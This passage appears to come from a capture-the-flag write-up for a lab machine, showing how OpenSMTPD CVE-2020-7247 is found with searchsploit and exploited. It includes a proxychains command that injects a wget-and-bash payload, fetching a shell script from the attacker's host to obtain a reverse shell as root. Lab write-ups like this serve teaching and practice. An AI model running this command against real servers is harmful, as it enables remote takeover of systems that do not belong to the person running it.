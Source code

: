 ## OpenSMTPD RCE

Found Remote Code Execution from searchsploit
```bash
❯ searchsploit OpenSMTPD
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
... [snip] ...
OpenSMTPD 6.6.1 - Remote Code Execution                     | linux/remote/47984.py
... [snip] ...
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

**[CVE-2020-7247](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7247):** smtp_mailaddr in smtp_session.c in OpenSMTPD 6.6, as used in OpenBSD 6.6 and other products, allows remote attackers to execute arbitrary commands as root via a crafted SMTP session, as demonstrated by shell metacharacters in a MAIL FROM field. This affects the "uncommented" default configuration. The issue exists because of an incorrect return value upon failure of input validation. **[Exploit](https://www.exploit-db.com/exploits/47984)**

only change requires in exploit script is `RCPT <email>`(a valid user email) which we found from squid leak `j.nakazawa@realcorp.htb`

![](/assets/img/posts/tentacle/opensmtp-rce.png)

Getting reverse shell with python web server and wget.
```bash
proxychains python smtp-rce.py 10.241.251.113 25 'wget -q -O ss.sh 10.10.15.71/shell.sh;bash ss.sh'
```

![](/assets/img/posts/tentacle/reverse-shell.png)

